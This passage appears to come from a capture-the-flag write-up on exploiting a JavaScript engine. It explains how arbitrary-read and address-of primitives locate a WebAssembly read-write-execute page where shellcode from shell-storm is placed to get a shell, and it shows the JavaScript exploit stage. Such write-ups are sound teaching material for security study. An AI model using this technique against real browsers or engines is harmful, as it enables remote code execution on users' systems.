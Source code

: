 From this point forward, there is a "new" (or ancient) path to shell
that I can see: write shellcode to the RWX region, and then directly
execute it. I was no longer sleepy :D

## Flag!

Now that I could see a new approach to getting a shell, I was
re-energized. I started to look for "paths" from known
functions/variables to the RWX page. Fortunately, I found one that
seemed stable, even on the server, and I was able to obtain a pointer
to a function that I could execute.

At this point, all that remained was to actually add in some shellcode
(taken from
[shell-storm](http://shell-storm.org/shellcode/files/shellcode-806.php)),
and I'd have shell.

The final exploit consisted of initializing wasm, in order to obtain
an `rwx_page_addr` and a `wasm_func` that when run, would execute the
core at the address obtained.

```js
let wasm_buffer = new ArrayBuffer(wasm_simple.length);
const wasm_buf8 = new Uint8Array(wasm_buffer);
for (var i = 0 ; i < wasm_simple.length ; ++i) {
	wasm_buf8[i] = wasm_simple[i];
}

let rwx_page_addr = undefined;

var wasm_importObject = {
	imports: {
	imported_func: function(arg) {
		// wasm_function -> shared_info -> mapped_pointer -> start_of_rwx_space
		let a = addr_of(wasm_func);
		a -= 1n;
		a += 0x18n;
		a = arb_read(a);
		a -= 0x91n;
		a = arb_read(a);
		rwx_page_addr = a;
		console.log("    + rwx_page_addr = " + rwx_page_addr.hex());
		stages_after_wasm();
	}
	}
};

async function wasm_trigger() {
	let result = await WebAssembly.instantiate(wasm_buffer, wasm_importObject);
	return result;
}

let wasm_func = undefined;

wasm_trigger().then(r => {
	f = r.instance.exports.exported_func;
	wasm_func = f;
	f(); });
```
